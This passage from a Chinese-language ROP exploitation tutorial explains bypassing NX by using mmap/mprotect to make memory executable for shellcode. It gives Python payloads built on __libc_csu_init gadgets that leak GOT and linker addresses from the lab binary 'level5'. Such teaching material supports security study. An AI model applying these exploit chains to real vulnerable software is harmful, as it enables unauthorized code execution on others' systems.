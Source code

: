 ![img](images/从栈溢出到ROP/got_hijack2.png)



#### rop执行mmap/mprotect绕过NX执行任意shellcode

看了这么多rop后是不是感觉我们利用rop只是用来执行system有点太不过瘾了？另外网上和msf里有那么多的shellcode难道在默认开启DEP的今天已经没有用处了吗？并不是的，我们可以通过mmap或者mprotect将某块内存改成RWX(可读可写可执行)，然后将shellcode保存到这块内存，然后控制pc跳转过去就可以执行任意的shellcode了，比如说建立一个socket连接等。下面我们就结合上一节中提到的通用gadgets来让程序执行一段shellcode。

我们测试的目标程序还是level5。在exp中，我们首先用上一篇中提到的_`_libc_csu_init`中的通用gadgets泄露出got_write和_`dl_runtime_resolve`的地址。

```
 #rdi= edi = r13, rsi = r14, rdx = r15 
 #write(rdi=1, rsi=write.got, rdx=4)
 payload1 = "\x00"*136
 payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
 payload1 += p64(0x4005F0) # movrdx, r15; movrsi, r14; movedi, r13d; call qword ptr [r12+rbx*8]
 payload1 += "\x00"*56
 payload1 += p64(main)

 #rdi= edi = r13, rsi = r14, rdx = r15 
 #write(rdi=1, rsi=linker_point, rdx=4)
 payload2 = "\x00"*136
 payload2 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(linker_point) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
 payload2 += p64(0x4005F0) # movrdx, r15; movrsi, r14; movedi, r13d; call qword ptr [r12+rbx*8]
 payload2 += "\x00"*56
 payload2 += p64(main)`
```

